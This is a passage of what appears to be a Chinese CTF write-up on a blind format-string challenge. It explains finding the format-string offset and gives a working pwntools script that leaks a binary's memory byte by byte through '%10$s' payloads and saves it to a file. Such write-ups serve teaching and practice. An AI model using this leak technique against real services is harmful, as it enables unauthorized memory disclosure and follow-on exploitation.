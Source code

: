 ```python
[*] Found format string offset: 8
offset is 8
'''
```

我们这里要发现一个问题,就是这个计算偏移下来,存在一个问题就是,我们要保证偏移量足够,就一定要前面增加一个字节的垃圾数据...嘿嘿,这个出题思路很骚...

![](https://raw.githubusercontent.com/selfishspring/blogphoto/master/20191104182549.png)

那么开始快乐的dump程序

### dump代码编写

如果以文件尾作为dump结束的话,在挂载程序的时候可能出现无限泄露,可以考虑加上范围限制,这个要根据具体的情况考虑,这里暂时就无限泄露,ctrl+C断开

dump代码编写,其实有点头疼,因为其实对于数据处理来容易出现失误(输出的数据的尾巴,需要处理掉),网上有些博客上提供的dump脚本,有些都是错的...这里整理各位大佬的脚本,最后写出了一个比较合理的脚本

dump需要注意前面输出的内容,9个字节的Repeater:

```python
#-*- coding:utf-8 –*-
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level='debug'
#context(arch = 'i386', os = 'linux', log_level='debug')
#context(arch = 'amd64', os = 'linux', log_level='debug')
#log_level=['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']

p = process("./pwn1")
f = open("pwn1bin", "ab+")

begin = 0x8048000
offset = 0
#i=0
p.recvuntil('Please tell me:')
while True:#i<13:#True:#
	addr = begin + offset	
	p.sendline("x%10$saaa" + p32(addr))
	try:
		#info = p.recv(4)

		info = p.recvuntil('aaa',drop=True)[10:]
		remain = p.recvrepeat(0.2)#weiba
		print info.encode("hex")
		print len(info)
	except EOFError:
		print "offset is " + str(offset)
		break
	if len(info)==0:
		print "info is null"
		offset += 1
		f.write('\x00')
	else:
		info += "\x00"
		offset += len(info)
		f.write(info)
		f.flush()
	#i = i + 1
	print "offset is " + str(offset)
f.close()
p.close()
```
